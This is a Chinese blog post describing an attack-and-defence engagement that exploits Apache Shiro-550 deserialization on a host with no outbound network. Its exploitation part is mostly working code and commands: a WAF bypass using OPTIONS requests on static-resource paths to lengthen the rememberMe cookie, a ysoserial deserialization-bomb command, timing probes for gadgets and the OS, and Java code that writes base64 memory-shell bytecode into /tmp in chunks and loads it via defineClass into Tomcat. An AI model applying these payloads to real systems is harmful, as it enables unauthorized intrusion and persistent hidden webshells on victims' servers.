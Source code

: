 #  记一次 Shiro 的实战利用

原创 pen4uin [ pen4uin ](javascript:void\(0\);)

**pen4uin** ![]()

微信号 gh_ffc9f5385230

功能介绍 仅供参考。

____

___发表于_

收录于合集 #漏洞利用 3个

### 0x01 前言

本文记录一次攻防中比较苛刻场景下的 shiro 550 漏洞的不出网利用。

### 0x02 简介

主要内容：

  * 绕过 WAF  对 rememberMe 长度的限制
  * 加载本地字节码 defineClass 注入内存马

### 0x03 漏洞验证

1、验证后端反序列化功能是否正常

![](https://gitee.com/fuli009/images/raw/master/public/20230714175128.png)

  

（被拦截）

根据经验猜测大概率是限制了 rememberMe 的长度

2、删减到 300 左右，正常放行

![](https://gitee.com/fuli009/images/raw/master/public/20230714175129.png)

  

3、绕过 waf  对 rememberMe 长度的限制

OPTIONS 请求方式 + 静态资源 uri 路径

  * 

    
    
    OPTIONS /app/login;index.css

成功将 rememberMe 的长度提升到 7000 左右

但超过 7000 依然会被拦截，没法再绕

![](https://gitee.com/fuli009/images/raw/master/public/20230714175130.png)

  

4、验证后端反序列化功能是否正常

反序列化炸弹

  * 

    
    
    java -jar ysoserial-for-woodpecker-<version>.jar -g FindClassByBomb -a "java.lang.String|25"

延时成功，说明后端功能正常

![](https://gitee.com/fuli009/images/raw/master/public/20230714175131.png)

  

5、探测目标是否出网

通过 urldns/httplog/jrmp 的方式探测，发现目标不出网

6、探测反序列化链

通过延时探测反序列化链

![](https://gitee.com/fuli009/images/raw/master/public/20230714175132.png)

  

说明目标存在 gadget: CommonsCollections10

### 0x04 漏洞利用

7、梳理信息与思路

请求方式：OPTIONS

  * 分离payload+动态类加载的姿势失效（OPTIONS 无法传递参数）
  * 修改 maxHeaderSize 没用（nignx 反代）

目标不出网

  * 远程加载字节码的姿势失效

利用思路

  * 命令执行/代码执行 写文件马
  * 代码执行 注内存马

8、判断目标操作系统

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    public class Payload extends AbstractTranslet {    public void transform(DOM var1, SerializationHandler[] var2) {}    public void transform(DOM var1, DTMAxisIterator var2, SerializationHandler var3) {}    static {        try {            String osType = System.getProperty("os.name");            if (osType != null && osType.toLowerCase().contains("win")) {                Thread.sleep(3000);            }else {                Thread.sleep(5000);            }        } catch (Throwable var16) {        }    }}

延时6s，说明目标操作系统极大概率为 *nix

![](https://gitee.com/fuli009/images/raw/master/public/20230714175133.png)

9、尝试写文件马

通过 find 静态资源文件获取web路径并写入文件马，失败

猜测原因

  * 当前用户权限问题（不是root）
  * 当前应用部署问题（以springboot fatjar的方式部署）

10、排查写入失败原因

在 home 目录写文件

  * 

    
    
    echo 123321 > /home/tmp.txt

判断文件是否写入成功

  *   *   *   *   *   * 

    
    
    File file = new File("/home/tmp.txt");if (file.exists()) {    Thread.sleep(2000);} else {    Thread.sleep(5000);}

延时6s，说明当前权限足够，则很有可能是应用部署层面导致的，文件马的路到此为止，尝试内存马

11、尝试注入内存马

将字节码写到临时目录，然后从目标本地读取文件加载字节码

由于 paylaod 长度限制，内存马需要分散写入，经过测试发现每次最多能写长度为 1600 左右

1）使用 java-memshell-generator 辅助模块延时确认目标中间件为 tomcat

  *   *   *   *   *   *   * 

    
    
    detect_way=Sleepserver_type=Tomcatdnslog_domain=xxx.dnslog.cnhttplog_url=http://xxx.httplog.cnsleep_seconds=5gadget_type=JDK_AbstractTransletformat_type=CLASS

2）拆分内存马，限制每组长度为 1600

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    public static void main(String[] args) {    String input = "[payload]";int groupSize = 1600;int length = input.length();int startIndex = 0;int endIndex = Math.min(length, groupSize);int a = 1;while (startIndex < length) {        String group = input.substring(startIndex, endIndex);        System.out.println(a + ":" + group);        startIndex = endIndex;        endIndex = Math.min(startIndex + groupSize, length);        a++;    }}  
    

拆分成了 14 组

![](https://gitee.com/fuli009/images/raw/master/public/20230714175134.png)

3）写入内存马的字节码

  *   *   *   * 

    
    
    // 第1次echo [payload01] > /tmp/log.txt// 第2 - 14次 使用 '>>' 追加文件内容echo [payload14] >> /tmp/log.txt

4）读取字节码进行 defineClass

  * 注意换行符问题

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    ClassLoader classLoader = Thread.currentThread().getContextClassLoader();// 读取文件byte[] fileBytes = Files.readAllBytes(Paths.get("/tmp/log.txt"));String fileContent = new String(fileBytes, StandardCharsets.UTF_8);// 删除多余的换行符String base64Str = fileContent.replace("\r","").replace("\n","");byte[] clazzByte = (new BASE64Decoder()).decodeBuffer(base64Str);Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);defineClass.setAccessible(true);Class clazz = (Class)defineClass.invoke(classLoader, clazzByte, 0, clazzByte.length);clazz.newInstance();  
    

5）成功注入内存马

![](https://gitee.com/fuli009/images/raw/master/public/20230714175135.png)

### 0x05  总结

目标虽然成功拿下了，但这是一种不太优雅的利用方式，不管是落地文件还是追加文件内容的选择都有可能会遇到更苛刻的挑战，比如文件无法落地、有负载均衡等。

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

